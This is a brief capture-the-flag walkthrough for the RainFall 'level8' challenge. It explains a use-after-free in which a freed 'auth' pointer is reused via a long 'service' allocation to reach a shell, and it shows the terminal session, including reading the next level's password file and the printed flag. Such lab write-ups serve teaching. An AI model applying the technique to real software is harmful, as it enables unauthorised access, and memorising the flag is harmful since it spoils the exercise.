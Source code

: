 # Walkthrough

## Disassembling the executable

see source.c

## Exploit

After the disasembly we see that auth isn't set to NULL when we used 'reset' option. So auth still point to the same space of memory as before. Then we allocate more space with a longer string using strdup on service so service and auth point on the same location. Then we call login and here we are '/bin/sh'.

```
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
0x804a008, (nil) 
reset  
0x804a008, (nil) 
serviceaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
0x804a008, 0x804a018 
login
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
